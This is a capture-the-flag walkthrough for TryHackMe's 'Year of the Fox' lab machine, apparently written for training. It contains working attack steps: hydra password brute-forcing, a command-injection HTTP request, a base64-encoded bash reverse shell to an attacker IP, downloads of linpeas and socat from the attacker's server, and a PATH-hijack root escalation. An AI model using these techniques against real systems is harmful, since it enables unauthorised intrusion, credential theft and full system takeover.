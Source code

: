 # [Year of the Fox](https://tryhackme.com/room/yotf)

## Don't underestimate the sly old fox...

# Hack the machine and obtain the flags

## Can you get past the wily fox?

### What is the web flag?

1. First, perform a port scan to identify open services on the target machine.
   - This reveals several open ports including HTTP, SMB, and SSH

```bash
nmap <TARGET_IP>
```

[SCREEN01]

2. Check if SMB allows anonymous access and what shares are available

```bash
smbclient -L //<TARGET_IP> -N
```

[SCREEN02]

3. Use enum4linux to perform comprehensive SMB enumeration and gather user information
   - This reveals valuable information about users, shares, and system details. We discover potential usernames that can be used for further attacks

```bash
enum4linux -a <TARGET_IP>
```

[SCREEN03]

4. From our enumeration, we found a potential username `rascal`. Let's attempt to brute force the HTTP basic authentication
   - Discovered credentials: `rascal:shelley`

```bash
hydra -l rascal -P /root/Tools/wordlists/rockyou.txt <TARGET_IP> http-get / -I -t 64
```

[SCREEN04]

5.  Log in to `http://<TARGET_IP>/` using the discovered credentials. Use Burp Suite to intercept HTTP requests

[SCREEN05]

6. Through analysis of the web application, we identify a command injection vulnerability in the search functionality. We can exploit this to read the web flag

```
POST /assets/php/search.php HTTP/1.1
Host: <TARGET_IP>
Content-Length: 47
Authorization: Basic cmFzY2FsOnNoZWxsZXk=

{
  "target":"\"; cat ../../../web-flag.txt \n"
}
```

[SCREEN06]

---

### What is the user flag?

1. Now that we have command injection, let's establish a connection. Prepare a base64-encoded reverse shell payload

```bash
echo -n "bash -i >& /dev/tcp/<ATTACKER_IP>/4444 0>&1" | base64
```

2. Set up a netcat listener on our attacking machine to catch the reverse shell

```bash
nc -lvnp 4444
```

2. Use the command injection vulnerability to execute our base64-encoded reverse shell

```
POST /assets/php/search.php HTTP/1.1
Host: <TARGET_IP>
Content-Length: 47
Authorization: Basic cmFzY2FsOnNoZWxsZXk=

{
  "target":"\";echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4yMDMuNDYvNDQ0NCAwPiYx | base64 -d | bash; \""
}
```

3. Running `linpeas.sh` indicates that SSH is only available to localhost

```bash
cd /root/Tools/PEAS/linPEAS
python -m SimpleHTTPServer
```

```bash
cd /tmp
wget <ATTACKER_IP>:8000/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh

cat /etc/ssh/sshd_config
```

4. We can use socat to open another port and redirect the traffic to port 22 on localhost

```bash
cd /usr/bin
python -m SimpleHTTPServer
```

```bash
cd /tmp
wget <ATTACKER_IP>:8000/socat
chmod +x socat
./socat TCP-LISTEN:2222,fork TCP:127.0.0.1:22
```

5. Now we can brute force SSH credentials through our socat tunnel. Based on our enumeration, we try the username `fox`
   - Discovered credentials: `fox:batman`

```bash
hydra -l fox -P /root/Tools/wordlists/rockyou.txt ssh://<TARGET_IP>:2222
```

[SCREEN07]

6. With valid SSH credentials, we can now log in and retrieve the user flag

```bash
ssh fox@<TARGET_IP> -p 2222
cat /home/fox/user-flag.txt
```

[SCREEN08]

---

### What is the root flag?

1. Now that we have user access, check what sudo privileges the `fox` user has
   - This reveals that the `fox` user can run `/usr/sbin/shutdown` as root without a password, which we can exploit for privilege escalation

```bash
sudo -l
```

[SCREEN09]

2. We can exploit the sudo permission by hijacking the PATH to execute our own malicious `poweroff` command instead of the legitimate one

```bash
cd /tmp
cp /bin/bash /tmp/poweroff
chmod +x /tmp/poweroff
export PATH=/tmp:$PATH
sudo /usr/sbin/shutdown
```

[SCREEN10]

3. Now with root access, we can explore the system and find the root flag

```bash
cd /home/rascal
ls -la
cat cat .did-you-think-I-was-useless.root
```

[SCREEN11]
